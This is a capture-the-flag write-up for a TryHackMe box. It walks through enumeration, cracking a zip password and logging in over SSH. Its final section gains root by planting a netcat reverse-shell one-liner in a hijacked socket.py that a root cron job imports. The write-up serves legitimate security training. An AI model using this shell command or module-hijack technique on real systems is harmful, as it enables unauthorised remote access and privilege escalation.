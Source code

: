 # THM SecDSM-Dec22-MiniCTF Writeup

​		22<sup>nd</sup> December 2022
​		[Box Link](https://tryhackme.com/jr/secdsmdecember22minictf)
​		writeups@centraliowacybersec.com
 
## Skills Needed or Learned
1. Web Service Enumeration.
1. Cracking an encrypted zip file.
1. Linux Privesc with Permission Misconfiguration


### Description:

This machine...

### Difficulty:

`easy`

# Hosts File

`sudo nano /etc/hosts`

add a line with the remote IP and the dns entry


`<IP> secdsm.thm`

# Enumeration

Start with basic and advanced NMAP scans on the box.

`nmap -v secdsm.thm`
![image](https://user-images.githubusercontent.com/43767555/203445905-4d04de66-d01c-48f0-9407-229137a38694.png)

`nmap -p 22,80 -A -sC -sV -v secdsm.thm`
![image],(https://user-images.githubusercontent.com/43767555/203445915-0b21ff59-a63c-4ecb-8c61-27616b5fb5ab.png)

HTTP and SSH are open. HTTP is always a pretty interesting place to start.

After spending some time on the site, a lot of links don't go anywhere but one does go to a broken link which is very interesting.

![image](https://user-images.githubusercontent.com/43767555/203446098-4fd83d1b-62b0-48ab-aa63-518c8a3758bf.png)
![image](https://user-images.githubusercontent.com/43767555/203446104-ca0609f7-04f1-4e04-a431-314c465fe0e6.png)

I checked the link in burp with the same results.

There are two routes here.
1. Edit the hosts file to match the url in the broken link
1. Edit the link to point to the machiine's known IP.

![image](https://user-images.githubusercontent.com/43767555/203446466-85f0dc87-dd5d-4d88-81d1-b8de05635a98.png)

This got me a download for the file.

![image](https://user-images.githubusercontent.com/43767555/203446486-7b086bfa-12b4-49fa-822a-1b8f81d5d705.png)

# Foothold

The file is encrypted but it seems to hold something called backup.txt.

![image](https://user-images.githubusercontent.com/43767555/203446633-38e82173-bffe-4005-8558-a5e61838193f.png)
![image](https://user-images.githubusercontent.com/43767555/203446679-2d9c099d-892a-4ede-80be-2de595097022.png)

This command will only work out of the box on later versions of Kali. You can download or search for this on your machine as well.

`zip2john temp.zip > hash`
![image](https://user-images.githubusercontent.com/43767555/203447619-fba66001-9dea-459e-b14c-ff1b3813db41.png)

Next is to crack this hash with john.

`john hash --wordlist=/usr/share/wordlist/rockyou.txt`

![image](https://user-images.githubusercontent.com/43767555/203447633-1cc3421b-1cd5-427a-8e26-46856d178fff.png)

This crack was succesful!

`unzip temp.zip`
`<password>`

![image](https://user-images.githubusercontent.com/43767555/203447877-2fb0f021-cce0-4554-bd42-55ef4394cd2f.png)
![image](https://user-images.githubusercontent.com/43767555/203447889-209d36d1-c1a6-4e88-8e9f-892d19423b55.png)

This file contained what looks like user creds that we can try on the open SSH port.

Back on the Attack machine, attempt to login to the.

`ssh kinder@secdsm.thm`

![image](https://user-images.githubusercontent.com/43767555/203448008-5ecb6140-d47d-4a73-84c6-7ffdeab0f424.png)

Here we can see the user.txt file, first flag down!

![image](https://user-images.githubusercontent.com/43767555/203448073-aaf7cf10-878b-428f-9e19-0df367aa9904.png)

# Privilege Escalation

The next part comes with Linux Privesc enumeration but we need to look for Cron Jobs or follow the proccesses on the machine to see what's happeneing behind the scenes.

On the attackbox get pspy downloaded from github.

`wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64s`

From here we can host a temp pthon webservber to move it onto the victim machine.

`sudo python3 -m http.server 80`

![image](https://user-images.githubusercontent.com/43767555/203450435-ac957f3b-9332-422e-b93d-2fefde30d730.png)

Download it onto the victim machine.

`wget http://192.168.59.131/pspy64s && chmod 777 pspy64s`

![image](https://user-images.githubusercontent.com/43767555/203450549-725b9440-c1fe-4192-888b-ea5ce0a8cbda.png)
![image](https://user-images.githubusercontent.com/43767555/203450555-0e39858b-fbb9-4766-89f5-fe40d1b6c38f.png)

This succesfully exposed a root cron job that we couldn't see from the public /etc/crontab file.

![image](https://user-images.githubusercontent.com/43767555/203450599-59ec8156-ef63-4932-9c74-2ac168593ada.png)

This shows some interest to this globally writeable directory inside of /opt/

![image](https://user-images.githubusercontent.com/43767555/203450667-94dad0e8-3cbb-4ffc-a3e8-a6d7ff62b0c6.png)

updog.py is not globally writeable though.

I wonder what updog.py is?

`whatis updog.py`

![image](https://user-images.githubusercontent.com/43767555/203450755-e9cbb752-7951-4cdc-80f9-095713add631.png)

Oh wait, wrong command!

![image](https://user-images.githubusercontent.com/43767555/203450769-ef6eb46f-ea13-4040-83a8-2f2791c97cab.png)

It looks like this script is checking if port 80 is online on localhost. If it isn't then it restarts the apache service. This is all pretty simple but on it's own not exploitable. What is exploitable is the writeable directory the file lives in.

Python imports modules in a specific order and iut is possible to exploit this given the right parameters.
1.    The current directory (same directory as script doing the importing).
1.    The library of standard modules.
1.    The paths defined in sys.path.*

[Source](https://www.webucator.com/article/how-python-finds-imported-modules)

Let's pull in the real sockets.py file into the directory and modify it to exploit this configuration vulnerability on the machine.

`find / -name socket.py 2>/dev/null`
`cp /usr/lib/python3.10/socket.py .`


![image](https://user-images.githubusercontent.com/43767555/203451434-4f756d72-8933-4466-a17f-fe6a1e57ae2d.png)

With the file succesfully pulled into the directory we can now build a reverse shell back to the attackbox.

[Revshells.com](https://revshells.com)

![image](https://user-images.githubusercontent.com/43767555/203451481-0b4b7008-3976-4d6e-97f6-9d338cc80362.png)

I checked for nc before building the shell.

`which nc`

![image](https://user-images.githubusercontent.com/43767555/203454997-2c92d5d6-9325-4a98-9e23-89e9b2c34734.png)


`echo 'os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.59.131 80 >/tmp/f")' >> socket.py && tail -n 10 socket.py`

![image](https://user-images.githubusercontent.com/43767555/203455333-7cacc5bd-72e6-4a22-ad10-70cb465abe84.png)

This pops a root shell on the attackbox where the root flag can be grabbed to finish!

![image](https://user-images.githubusercontent.com/43767555/203455377-9af29b7d-8ad6-4988-97ce-8573f8344412.png)
